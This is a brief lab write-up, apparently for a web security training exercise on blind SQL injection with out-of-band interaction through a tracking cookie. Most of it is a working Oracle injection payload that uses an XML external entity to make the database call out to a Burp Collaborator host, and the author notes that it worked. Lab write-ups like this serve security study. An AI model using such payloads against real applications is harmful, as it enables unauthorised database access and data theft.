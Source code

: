 # Lab: Blind SQL injection with out-of-band interaction

Vulnerable parameter : Tracking cookie

Analysis :
ayhaga.burpcollaborator.net

1- try oracle

`' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ayhaga.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) --` -> worked :"D
